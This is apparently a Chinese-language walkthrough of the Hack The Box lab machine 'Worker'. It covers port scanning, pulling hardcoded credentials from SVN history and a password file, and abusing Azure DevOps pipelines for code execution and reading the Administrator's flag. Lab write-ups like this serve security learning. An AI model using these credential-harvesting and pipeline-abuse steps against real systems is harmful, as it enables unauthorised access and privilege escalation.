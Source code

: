 # README

## 信息收集

### nmap

```shell
sudo nmap -p-  --min-rate 10000 10.10.10.203
Password:
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-09 15:10 CST
Nmap scan report for 10.10.10.203
Host is up (0.30s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3690/tcp open  svn
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 14.03 seconds
```

```shell
sudo nmap -p 80,3690,5985 -sC -sV 10.10.10.203
Password:
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-09 15:32 CST
Nmap scan report for 10.10.10.203
Host is up (0.29s latency).

PORT     STATE SERVICE  VERSION
80/tcp   open  http     Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
3690/tcp open  svnserve Subversion
5985/tcp open  http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.35 seconds

```



## Svn

下载svn服务器上的文件：

```shell
svn checkout svn://10.10.10.203
```

只有一些静态文件，move.txt提示了另外一个域名，进入后发现要密码。

index.html里面列出了许多的新域名，访问后也都是一堆静态。

查看版本更迭：

```shell
svn log
------------------------------------------------------------------------
r5 | nathen | 2020-06-20 21:52:00 +0800 (六, 2020-06-20) | 1 行

Added note that repo has been migrated
------------------------------------------------------------------------
r4 | nathen | 2020-06-20 21:50:20 +0800 (六, 2020-06-20) | 1 行

Moving this repo to our new devops server which will handle the deployment for us
------------------------------------------------------------------------
r3 | nathen | 2020-06-20 21:46:19 +0800 (六, 2020-06-20) | 1 行

-
------------------------------------------------------------------------
r2 | nathen | 2020-06-20 21:45:16 +0800 (六, 2020-06-20) | 1 行

Added deployment script
------------------------------------------------------------------------
r1 | nathen | 2020-06-20 21:43:43 +0800 (六, 2020-06-20) | 1 行

First version
------------------------------------------------------------------------

```

回溯到r2版本，发现有个ps1脚本：

```shell
svn up -r2
正在升级 '.':
A    deploy.ps1
更新到版本 2。
```





```ps1
$user = "nathen" 
$plain = "wendel98"
$pwd = ($plain | ConvertTo-SecureString)
$Credential = New-Object System.Management.Automation.PSCredential $user, $pwd
$args = "Copy-Site.ps1"
Start-Process powershell.exe -Credential $Credential -ArgumentList ("-file $args")
```

获得了一对用户名密码，nathen:wendel98拿这个去登录http://devops.worker.htb/可以成功登录，是一个Azure DevOps。



尝试直接往网站下面上传文件发现没有权限，因此创建一个新的分支然后在pipelines那里对新分支构建队列任务：

![image-20231009165236495](README.assets/image-20231009165236495.png)

完成后rce：

![image-20231009165249365](README.assets/image-20231009165249365.png)



## iis shell

翻找目录，找到了w:\svnrepos\www\conf\passwd

```shell
### This file is an example password file for svnserve.
### Its format is similar to that of svnserve.conf. As shown in the
### example below it contains one section labelled [users].
### The name and password for each user follow, one account per line.

[users]
nathen = wendel98
nichin = fqerfqerf
nichin = asifhiefh
noahip = player
nuahip = wkjdnw
oakhol = bxwdjhcue
owehol = supersecret
paihol = painfulcode
parhol = gitcommit
pathop = iliketomoveit
pauhor = nowayjose
payhos = icanjive
perhou = elvisisalive
peyhou = ineedvacation
phihou = pokemon
quehub = pickme
quihud = kindasecure
rachul = guesswho
raehun = idontknow
ramhun = thisis
ranhut = getting
rebhyd = rediculous
reeinc = iagree
reeing = tosomepoint
reiing = isthisenough
renipr = dummy
rhiire = users
riairv = canyou
ricisa = seewhich
robish = onesare
robisl = wolves11
robive = andwhich
ronkay = onesare
rubkei = the
rupkel = sheeps
ryakel = imtired
sabken = drjones
samken = aqua
sapket = hamburger
sarkil = friday
```

查找users目录：

```
2020-07-07  17:53    <DIR>          .
2020-07-07  17:53    <DIR>          ..
2020-03-28  15:59    <DIR>          .NET v4.5
2020-03-28  15:59    <DIR>          .NET v4.5 Classic
2020-08-18  00:33    <DIR>          Administrator
2020-03-28  15:01    <DIR>          Public
2020-07-22  01:11    <DIR>          restorer
2020-07-08  19:22    <DIR>          robisl
```

发现有robisl和restorer用户。

得到了robisl:wolves11

拿`net user robisl`查询，发现他确实在Remote Management Use组

## robisl用户

robisl用户同样可以登上Azure DevOps，且之前查到了一个pipeline的yaml：

```shell
# Starter pipeline
# Start with a minimal pipeline that you can customize to build and deploy your code.
# Add steps that build, run tests, deploy, and more:
# https://aka.ms/yaml

# This is for htb Worker Box :)

trigger:
- master

pool: 'Setup'

steps:
- powershell: type C:\Users\Administrator\Desktop\root.txt
  displayName: 'Privesc'

```

因此创建新分支并拿这个yaml创建新pipeline即可拿到flag：

![image-20231009181045963](README.assets/image-20231009181045963.png)